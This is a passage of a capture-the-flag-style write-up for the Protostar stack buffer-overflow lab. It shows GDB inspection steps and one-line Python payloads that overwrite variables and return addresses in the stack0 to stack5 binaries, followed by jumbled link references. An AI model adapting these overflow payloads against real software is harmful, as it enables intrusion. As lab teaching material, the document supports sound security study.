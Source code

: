 >      `(gdb) x/u $esp+0x5c`
>
>    + See as Integer (hexadecimal)
>      `(gdb) x/x $esp+0x5c`
>
>    + See as bytes (4 bytes since int is 4 bytes)
>      `(gdb) x/4b $esp+0x5c`
>
> 11. On a separte terminal, run:
>     `python -c "print('A' * 65)"`
>   
> 12. `(gdb) continue`
>     You should hit the second breakpoint
>
> 13. Copy the output of `step 11`, paste into GDB, and press ENTER
>     Expected Output:
>      you have changed the 'modified' variable
>
> 14. Observe the `modified` variable has been overwritten
>    + `(gdb) x/c $esp+0x5c`
>
>     Output:
>      0xbffffcac:	65 'A'
>
>    + `(gdb) x/4x $esp+0x5c`
>
>     Output:
>      0xbffffcac:	0x41	0x00	0x00	0x00
>
> 
> 15. `(gdb) continue`
>
>     Output:
>      Continuing.
>      you have changed the 'modified' variable



## Stack 1: Overwrite Variable to Specific Value
------------------------------------------------------------------------
[Simple]:  ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")

Step by step is similar to stack0



## Stack2: Set Enviromental Variable 
------------------------------------------------------------------------
[Simple]:
GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'") ./stack2

Step by step is similar to stack0



[Protostar]: https://exploit-exercises.lains.space/protostar/
[Protostar ISO]: https://drive.google.com/drive/folders/0B9RbZkKdRR8qbkJjQ2VXbWNlQzg?usp=sharing
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Walkthroughs]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Walkthrough]: https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13&ab_channel=LiveOverflow
[Simple]: python -c "print('A' * 65)" | ./stack0
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 76 + '\xf4\x83\x04\x08')" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Simple]: $ python -c "print('\x90' * 75 + 'BBBB')" | ./stack5
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=Y1RRda2Wnpw
[Walkthrough]: https://www.youtube.com/watch?v=m17mV24TgwY
[Walkthrough]: https://www.youtube.com/watch?v=IncswlWGn1M